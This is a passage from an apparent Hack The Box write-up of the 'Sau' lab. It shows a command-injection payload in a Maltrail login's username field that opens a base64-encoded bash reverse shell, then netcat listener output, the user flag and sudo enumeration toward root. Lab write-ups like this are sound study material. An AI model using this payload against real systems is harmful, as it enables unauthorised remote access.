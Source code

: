 I sent that payload to the login endpoint.

```http
POST /rg7my1z HTTP/1.1
Host: target.htb:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://target.htb:55555/web/j4gxx67
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

username=;`echo+YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDgvNDQ0NCAwPiYxICAK+|+base64+-d+|+bash`
```

It gave me a shell, and the user flag.

```
$ nc -klvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.98.107] 46834
bash: cannot set terminal process group (878): Inappropriate ioctl for device
bash: no job control in this shell

puma@sau:/opt/maltrail$ whoami
whoami
puma

puma@sau:/opt/maltrail$ ls ~/
ls ~/
user.txt

puma@sau:/opt/maltrail$ cat ~/user.txt
cat ~/user.txt
REDACTED
```

## Getting root

Once connected, I checked if I could run anything with `sudo`.


```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2023-10-01 11:50:01 UTC; 50min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 881 (python3)
      Tasks: 6 (limit: 4662)
     Memory: 18.5M
     CGroup: /system.slice/trail.service
             ├─ 881 /usr/bin/python3 server.py
```